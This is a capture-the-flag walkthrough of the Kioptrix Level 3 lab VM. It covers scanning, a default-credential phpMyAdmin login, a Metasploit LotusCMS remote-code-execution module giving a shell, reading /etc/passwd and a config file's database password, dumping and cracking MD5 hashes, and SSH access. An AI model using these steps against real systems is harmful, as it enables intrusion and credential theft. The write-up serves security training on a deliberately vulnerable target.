# Kioptrix Level 3

### Contents

Our target network is `10.0.2.0/24`.

# Footprinting
Find the IP address of the target host via:

```bash
netdiscover -r 10.0.2.0/24
```

For the purpose of this guide we will assume our target is at IP address **10.0.2.9**.

As per the instructions we modify `/etc/hosts` so our target is at **kioptrix3.com**.
# Reconnaisance

We perform an initial scan as follows:

```bash
nmap 10.0.2.9
```

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
MAC Address: 08:00:27:50:6F:FB (Oracle VirtualBox virtual NIC)
```

Let's check for UDP ports:

```bash
nmap -sU 10.0.2.9
```

Let's do version detection:
```bash
nmap -O 10.0.2.9
```

```
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
```

Now we proceed by examining each of the services on the machine.
Starting with the most interesting.

# HTTP

```bash
nikto -host kioptrix3.com
```

We find a **phpmyadmin** page.

## phpMyAdmin

```
+ Server: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
+ Retrieved x-powered-by header: PHP/5.2.4-2ubuntu5.6
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Cookie PHPSESSID created without the httponly flag
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ PHP/5.2.4-2ubuntu5.6 appears to be outdated (current is at least 5.6.9). PHP 5.5.25 and 5.4.41 are also current.
+ Apache/2.2.8 appears to be outdated (current is at least Apache/2.4.12). Apache 2.0.65 (final release) and 2.2.29 are also current.
+ Server leaks inodes via ETags, header found with file /favicon.ico, inode: 631780, size: 23126, mtime: Fri Jun  5 15:22:00 2009
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F36-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3092: /phpmyadmin/changelog.php: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ /phpmyadmin/: phpMyAdmin directory found
+ OSVDB-3092: /phpmyadmin/Documentation.html: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ 7444 requests: 0 error(s) and 19 item(s) reported on remote host
+ End Time:           2019-03-06 11:22:36 (GMT-5) (46 seconds)
```

When we navigate to the admin console via the browser we find we try the following:

```
root:
admin:admin
':
```

This works and we are logged in as `'@localhost`.

The console gives the following information:

```
Server version: 5.0.51a-3ubuntu5.4
phpMyAdmin - 2.11.3deb1ubuntu1.3
MySQL client version: 5.0.51a
```

We can see the following database:
```
information_schema
```
However, at this stage we are unable to use any SQL injection at our current low privilege level.

## LotusCMS

Browsing around the site we can see a blog and a login portal.

The portal states that it is:
> Proudly powered by LotusCMS

A simple `searchsploit` on this CMS reveals the following:
https://www.rapid7.com/db/modules/exploit/multi/http/lcms_php_exec.

We used Metasploit to gain a Meterpreter shell like follows:

```
use exploit/multi/http/lcms_php_exec
set RHOST kioptrix3.com
set URI /index.php?system=Admin
exploit
```

## Initial Shell

```
meterpreter > getuid
Server username: www-data (33)

meterpreter > cat /etc/passwd
loneferret:x:1000:100:loneferret,,,:/home/loneferret:/bin/bash
dreg:x:1001:1001:Dreg Gevans,0,555-5566,:/home/dreg:/bin/rbash

meterpreter > sysinfo
Computer    : Kioptrix3
OS          : Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686
Meterpreter : php/linux
```

Looking at the PHP files we can see some of the config files. Of interest is `gconfig.php` which contains some GLOBALS:

```PHP
$GLOBALS["gallarific_path"] = "http://kioptrix3.com/gallery";
$GLOBALS["gallarific_mysql_server"] = "localhost";
$GLOBALS["gallarific_mysql_database"] = "gallery";
$GLOBALS["gallarific_mysql_username"] = "root";
$GLOBALS["gallarific_mysql_password"] = "fuckeyou";
```

Looking around the filesystem we can see some interesting files in the home of user `loneferret`.

```bash
cat /home/loneferret/CompanyPolicy.README
```

```
It is company policy to use 'sudo ht' to edit and view files.
```

## MySQL

We can see the daemon running:

```
/usr/sbin/mysqld --basedir=/usr --datadir=/var/lib/mysql --user=mysql --port=3306
```

Using `root:fuckeyou` we can login to the database using `mysql`.

```
mysql -u root -p --port=3306
```

Doing this via Meterpreter we need to use `shell`.
This did cause difficulties in terms of output being unreliable to the screen, however using `; ?` seemed to work.

Now we can run some commands on the Database:

```SQL
USE DATABASE MYSQL;
SELECT * FROM users;
```

```
localhost	root	*47FB3B1E573D80F44CD198DC65DE7764795F948E
```

```SQL
USE DATABASE gallery;
SELECT * FROM dev_accounts;
```

```
id  username    password
1	  dreg        0d3eccfb887aabd50f243b3f155c0f85
2   loneferret  5badcaf789d3d1d09794d8f021f40f0e
```

**Now we have some account hashes to crack.**

## Cracking Hashes

We put our hashes in a file and let `john` loose:

```bash
john hashes.txt --format=Raw-MD5
```

We find `loneferret:starwars` pretty quickly.

We can then `ssh` into `kioptrix3`.
